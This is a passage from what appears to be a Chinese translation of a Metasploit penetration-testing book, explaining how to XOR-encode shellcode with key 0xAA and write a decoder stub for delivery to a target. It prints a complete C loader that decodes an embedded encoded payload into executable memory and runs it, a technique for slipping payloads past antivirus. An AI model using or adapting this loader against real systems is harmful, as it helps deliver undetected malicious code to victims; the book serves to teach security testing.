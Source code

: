这是一个直接的程序，我们将生成的 shellcode 复制到一个数组`buf[]`中，然后简单地迭代并对每个字节使用`0xAA`字节进行 Xor，并将其打印在屏幕上。编译和运行此程序将输出以下编码的有效负载：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/13486eca-c31a-4283-8d79-fd9e11831a9a.png)

现在我们有了编码的有效负载，我们需要编写一个解密存根可执行文件，它将在执行时将此有效负载转换为原始有效负载。解密存根可执行文件实际上将是交付给目标的最终可执行文件。要了解目标执行解密存根可执行文件时会发生什么，我们可以参考以下图表：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/451beaca-4d35-40d9-972e-c0b20d37a8b6.png)

我们可以看到，在执行时，编码的 shellcode 被解码为其原始形式并执行。让我们编写一个简单的 C 程序来演示这一点，如下所示：

```
#include"stdafx.h"
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char encoded[] =
"\x14\x3f\x18\x3f\x54\x77\x6e\x73\xde\x8e\x5e\xf0\x9b\x63\x1b"
"\xfc\x29\x68\xae\x9b\xd8\xa5\xa9\xd8\x30\xfa\xca\xa8\xe6\xbc"
"\x21\x51\x26\xdd\xaf\xb4\x17\x1d\xdb\xc0\x47\xad\x5b\x94\xab"
"\x49\xfd\x01\x38\x2b\xd5\x76\xb9\x85\xc\x79\x0e\xb6\x30\xd8"
"\x8c\xf5\x65\xfe\xbd\x3a\xa8\x3e\xfa\x67\x45\x6e\xa3\x33\xe8"
"\x53\x94\x7d\xf4\xd8\xa6\x53\x4c\xcd\x6e\x52\x6d\x93\xf5\x9"
"\x6d\x12\x26\x75\xeb\x9\x7b\x70\xb2\xf2\x8b\x3a\x30\x22\xd2"
"\xf3\x9a\x5f\x1f\x2\xe2\x9b\xdb\xf9\x95\xe1\x28\x44\x92\x22"
"\x53\x9e\x66\xa1\xf3\x14\xdc\x5a\xf2\xb9\x4a\xd9\xfc\x72\xcc"
"\x71\xd0\x75\x01\xfd\x2c\xfe\xe0\x12\xa5\x84\xc3\xb6\xfe\x5e"
"\xba\xaf\x9a\xf1\x86\xff\x31\xae\x22\xb7\x9b\xfa\xb\xd5\xf7"
"\x3f\x22\xd5\x37\x1b\x31\xa6\x5\xb4\x9a\x31\x29\x7d\x34\xf6"
"\x38\x5a\x8a\x18\xb6\x3a\x74\x99\xf6\x12\x8e\xcd\xa6\x78\x27"
"\xa2\x6d\x88\x9b\x77\xd7\x83\xf\xb4\x83\x8d\xfa\x5d\x81\x92"
"\x21\xf1\x8\x74\x51\x99\x4e\xe4\x16\x49\xee\x95\xfe\x44\xe1"
"\xca\xee\xbb\x2c\xa3\x45\x54\xd4\xcb\x32\xcd\x71\x53\x93\xcd"
"\x5c\x2d\xd0\x49\x58\xd2\x9e\xae\xdd\xc1\x8b\xd9\xdd\xd9\x18"
"\xbc\xdd\xb3\x1c\x1a\x8a\x1f\x1e\x4f\xac\xb0\xec\x6a\xbf\xf7"
"\x12\x3f\x85\xbf\x25\xa9\xa5\xeb\x5a\x69\x25\x3b\xc\x23\x25"
"\x53\xb4\x40\x76\xb6\xcb\x8d\xdb\x27\x5e\x62\x89\xcb\xf4\xb"
"\x63\xf6\x2\xc4\x98\x21\x00\xc3\x66\xe3\x2f\x7b\xe\x1b\x3f"
"\x4b\x9e\x72\xbf\x18\xf6\xbd\x93\x97\x6\x72\x3a\xbc\xe\xf9"
"\xdf\x7e\xff\xc9\xf6\x12\x61\xce\xf9\xcb\x56\xb5\xb6\x3c\x57"
"\x75\x9e\x59\x54\x75\x92\xaf\x69\xa3\xab\xd9\xa8\x20\x9c\x26"
"\x9b\x5\xb5\xad\x93\x49\xca\xa8\xaa";
int main()
{
 void *exec = VirtualAlloc(0, sizeof encoded, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

 for (unsigned int i = 0; i < sizeof encoded; ++i)
 {
  unsigned char val = (unsigned int)encoded[i] ^ 0xAA;
  encoded[i] = val;
 }
 memcpy(exec, encoded, sizeof encoded);
 ((void(*)())exec)();
 return 0;
}
```
